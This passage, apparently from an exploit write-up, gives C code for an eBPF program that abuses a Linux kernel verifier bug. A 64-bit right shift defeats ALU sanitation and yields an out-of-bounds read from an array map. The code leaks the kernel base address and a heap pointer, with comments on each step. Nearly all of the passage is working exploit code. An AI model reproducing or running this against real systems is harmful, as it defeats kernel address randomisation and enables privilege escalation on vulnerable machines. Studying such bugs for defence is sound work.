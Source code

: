 Here's the main function so far:
```c
int oob_map_fd = bpf_map_create(4, 0x150, 1);

struct bpf_insn kleak_prog[] = {
    // load map_ptr_or_null in BPF_REG_0
    BPF_MOV64_IMM(BPF_REG_0, 0),
    BPF_STX_MEM(BPF_W, BPF_REG_10, BPF_REG_0, -4),
    BPF_MOV64_REG(BPF_REG_6, BPF_REG_1),
    BPF_LD_MAP_FD(BPF_REG_1, oob_map_fd),
    BPF_MOV64_REG(BPF_REG_2, BPF_REG_10),
    BPF_ALU64_IMM(BPF_ADD, BPF_REG_2, -4),
    BPF_CALL_FUNC(BPF_FUNC_map_lookup_elem),
    // returns map_ptr + 0x110 (offset of .values in array_map)

    // map_ptr_or_null -> map_ptr
    BPF_JMP_IMM(BPF_JNE, BPF_REG_0, 0, 1),
    BPF_EXIT_INSN(),

    // trigger vuln and make eBPF think we are still map_ptr + 0x110
    // but in reality we're map_ptr + 0x0
    BPF_MOV64_REG(BPF_REG_7, BPF_REG_0),
    // ALU Sanitation will set alu_limit = 0 but alu_limit - 1 will be used
    // hence any 32-bit value can be used
    BPF_MOV64_IMM(BPF_REG_0, 0x110),
    BPF_MOV64_IMM(BPF_REG_1, 64),
    BPF_ALU64_REG(BPF_RSH, BPF_REG_0, BPF_REG_1), // the bug
    BPF_ALU64_REG(BPF_SUB, BPF_REG_7, BPF_REG_0),
    BPF_LDX_MEM(BPF_DW, BPF_REG_8, BPF_REG_7, 0), // load the ptr (kbase leak)
    
    // map_ptr + 0x0 -> map_ptr + 0xc0
    BPF_ALU64_IMM(BPF_ADD, BPF_REG_7, 0xc0),
    BPF_LDX_MEM(BPF_DW, BPF_REG_9, BPF_REG_7, 0), // load the ptr (heap leak)

    // write the read ptr to map for reading it from userspace
    // make map_ptr + 0xc0 to map_ptr + 0x110
    BPF_ALU64_IMM(BPF_ADD, BPF_REG_7, 0x50), 
    // write array_map_ops ptr to maps_ptr + 0x110
    BPF_STX_MEM(BPF_DW, BPF_REG_7, BPF_REG_8, 0),
    // write map_ptr + 0xc0 to maps_ptr + 0x118
    BPF_STX_MEM(BPF_DW, BPF_REG_7, BPF_REG_9, 8),
    BPF_EXIT_INSN(),
};

run_bpf_prog(kleak_prog, sizeof(kleak_prog)/sizeof(kleak_prog[0]));

uint64_t array_map_ops = bpf_map_lookup_elem(oob_map_fd, 0, 0);
uint64_t map_ptr = bpf_map_lookup_elem(oob_map_fd, 0, 1) - 0xc0;
uint64_t kbase = array_map_ops - ARRAY_MAP_OPS_OFFSET;

printf("array_map_ops: %p\nkbase: %p\nmap_ptr: %p\n", array_map_ops, kbase, map_ptr);
```
